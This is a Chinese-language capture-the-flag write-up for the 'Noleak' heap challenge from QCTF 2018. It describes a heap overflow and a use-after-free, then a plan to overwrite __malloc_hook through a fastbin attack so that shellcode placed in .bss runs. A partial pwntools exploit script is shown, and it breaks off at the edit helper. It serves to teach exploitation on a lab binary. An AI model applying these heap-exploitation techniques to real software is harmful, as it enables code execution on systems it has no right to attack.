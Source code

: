 # Noleak

题目来源：XCTF 4th-QCTF-2018

这题保护开的好少，栈/堆执行都开了。。

![aBWNMt](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/aBWNMt.png)

***Update***函数存在Overflow，没有控制size。

```python
malloc(0x20,"A"*0x10)
malloc(0x20,"B"*0x10)
edit(0,0x40,"C"*0x30) #overflow
```

![T9kQyl](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/T9kQyl.png)

存在一个Double Free/UAF，原因是free时没有将指针从buf中删除。

![J7P1Lt](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/J7P1Lt.png)

因为没有leak，而且got表覆盖也没有合适的函数。想直接用partial write来猜stdout地址，然后直接IO_FILE泄露地址。不过这道题stdout的结构居然没初始化，导致无法泄露地址。

不过顺着之前的思路，通过partial write来覆盖低地址，来猜测malloc_hook的地址。然后将shellcode写入bss段，让malloc_hook跳转到bss执行。（使用fastbin attack）

![OQG75i](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/OQG75i.png)

```python
#!/usr/bin/python
from pwn import *

p=process("./timu",env={"LD_PRELOAD":"libc-2.23.so"})
context.log_level='Debug'
context(arch='amd64', os='linux')
gdb.attach(p)


r  = lambda data	:p.recv(data)
ru = lambda data 	:p.recvuntil(data)
s  = lambda data	:p.send(data)
sl = lambda data	:p.sendline(data)

def malloc(size,data):
	ru("Your choice :")
	sl(str(1))
	ru("Size:")
	sl(str(size))
	ru("Data:")
	sl(data)
def free(index):
	ru("Your choice :")
	sl(str(2))	
	ru("Index:")
	sl(str(index))
def edit(index,size,data):
	ru("Your choice :")
	sl(str(3))
	ru("Index:")
	sl(str(index))
	ru("Size:")
	sl(str(size))
	ru("Data:")
```
